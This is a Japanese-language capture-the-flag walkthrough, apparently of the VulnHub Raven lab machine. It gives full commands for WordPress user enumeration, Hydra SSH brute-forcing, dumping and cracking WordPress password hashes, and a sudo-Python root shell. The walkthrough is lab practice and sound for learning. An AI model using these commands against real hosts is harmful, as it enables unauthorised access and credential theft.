 ## Raven 683~

## 目的
- flag1.txt <- webサイト
- flag2.txt <- ターゲットのフォルダ
- flag3.txt *2 <- SQLの中
- flag4.txt *2 <- SQLの中とrootフォルダ
- 合計で6つを見つける
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する

### gobusterで探す
- Dirbと当然、同じディレクトリが出てくる。
  - メリット -> Dirbよりも速度が速いので、gobusterの方がいいかも
  - デメリット -> wordpressまでしか出てこないが、Dirbならwp-login.phpまで出てくる

### Webサイトを見て修正する
- `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
- 一部のサイトが崩れているので直す。おそらくサイトの中でraven.localのリンクが使われていて、その名前解決ができなので崩れている
- `sudo vi /etc/hosts` 下のを書く
- `192.168.56.107 raven.local` 

### もう一度Webサイトを見てみる
- サイトで右クリック`view page source`を選択で`ctrl + f`で検索する

### WPScanでWordPressをチェックする
  - `wpscan --url 192.168.56.107/wordpress --enumerate u`
    - `--enumerate u`は`-eu`と同じ意味 `-eu`はenumerate userの略
    - (上と同じ) `wpscan --url 192.168.56.107/wordpress -at -eu` 
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
  - (参考) wordpressを使っているので、wigやdroopescanも使える


### Hydraでパスワード探す
- wordpressのユーザ名でsshのパスワードを探す
- `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 50`
  - `-t` 同時にタスクを動かせる数、16がデフォルト。数字が大きいほど速くなる。ただし、sshでは制限があるので、`-t 4`がリコメンドされている
- httpでなく、sshなので注意
- `michael`だけしかパスワードわからないので、そこで止める

### (参考) nmapでパスワードを探す
- `sudo nmap -p 22 --script ssh-brute --script-args userdb=names.txt,passdb=pass.txt`
  - passdb.txtはパスで指定できないので、同じディレクトリでないとだめ

### sshで接続
- `ssh michael@$IP`
  - password `michael` 

### システム内の探索
- ユーザmichaelで探索
- `sudo -l`
  - パスワードがわからない 
- SUIDをする
  - 特に使えるものはない 
- `cat /etc/passwd`
  - stevenという気になるユーザが見つかる 
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`

### MySQLの設定情報を見る
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う

### MySQLに接続
- mysqlに接続する
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`

### MySQLの探索
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- wordpressのユーザ名とパスワードの書いたhash.txtが作成される。通常SQLでパスワードが保存されているときはハッシュ化
### MySQLをさらに探索
- ブログの記事を保存してあるテーブルを見る
  - `select * from wp_posts\G`
- `quit;`
### ParrotOS側のhash.txtにコピーする
- 通常パスワードの解析は攻撃側端末で行う理由は３つ
- 1. ターゲット端末にJohnがインストールされてることはない
  2. ターゲット端末に負荷がかかるので見つかる可能性がある
  3. 攻撃端末の方が高スペックである
- ターゲット端末のhash.txtをコピーして、ParrotOS側の新しい端末を起動してターミナルにペーストする
- (Raben) `cat /tmp/hash.txt`
- コピーする
- (Prrot) `cat > ~/vulnhub/Raben/hash.txt`
- ペーストする

### ハッシュ値の種類を調べる
- `hash-identifier '$P$~' ` stevenのハッシュ値をペーストする
- wordpressのmd5だとわかる
- 暗号解読には2種類の方法がある

### 暗号解読(1) John the ripper(ParrotOS側で)
- hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
  - 過去に一度解析していたら以下のコマンドする
  - `sudo john --show hash.txt` 

### 暗号解読(2) hashcat(ParrotOS側で)
- hash.txtのstevenのハッシュ値をペースト
- `hashcat '$P$B~' /usr/share/wordlists/rockyou.txt -m 400`


### stevenに切り替える
- userのstevenのpasswordがわかるので切り替える。このパスワードは本来はWordPressにログインするためのパスワードだが、ユーザの切り替えでも使い回していると考えている
- `su steven`
- password`pink84`

### sudo -l
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
